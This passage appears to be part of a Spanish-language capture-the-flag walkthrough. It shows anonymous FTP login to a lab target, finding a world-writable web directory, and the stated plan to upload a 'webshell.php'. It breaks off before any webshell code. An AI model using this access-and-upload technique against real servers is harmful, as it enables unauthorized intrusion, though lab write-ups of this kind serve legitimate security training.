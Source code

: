 Vemos varias cosas interesantes entre ellas un servidor `FTP` vamos a probar si el `FTP` se puede entrar de forma anonima.

## FTP

```shell
ftp anonymous@<IP>
```

Si dejamos la contraseña en blanco veremos que si nos deja, por lo que si listamos el directorio veremos lo siguiente:

```
229 Entering Extended Passive Mode (|||43462|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        113          4096 Oct 09  2020 .
drwxr-xr-x    3 0        113          4096 Oct 09  2020 ..
drwxrwxrwx    2 0        0            4096 Oct 09  2020 www
226 Directory send OK.
```

Vemos una carpeta llamada `www` y si entramos dentro veremos lo siguiente:

```shell
cd www/
ls -la
```

Info:

```
229 Entering Extended Passive Mode (|||14447|)
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Oct 09  2020 .
drwxr-xr-x    3 0        113          4096 Oct 09  2020 ..
-rwxrwxrwx    1 0        0             241 Oct 09  2020 index.html
-rwxrwxrwx    1 0        0              75 Oct 09  2020 note.txt
-rwxrwxrwx    1 0        0              10 Oct 09  2020 robots.txt
226 Directory send OK.
```

Vemos lo que parece el contenido de la pagina del puerto `80` por lo que podemos probar a subir una `webshell.php`, pero antes vamos a ver que pone la `note.txt`:

```
URL = http://<IP>/note.txt
```

Info:

```
The extra-secured .jpg file contains my password but nobody can obtain it.
```

Con esto confirmamos que si se esta compariendo la pagina web mediante el `FTP` por lo que vamos a crear el siguiente `webshell.php`:

> webshell.php
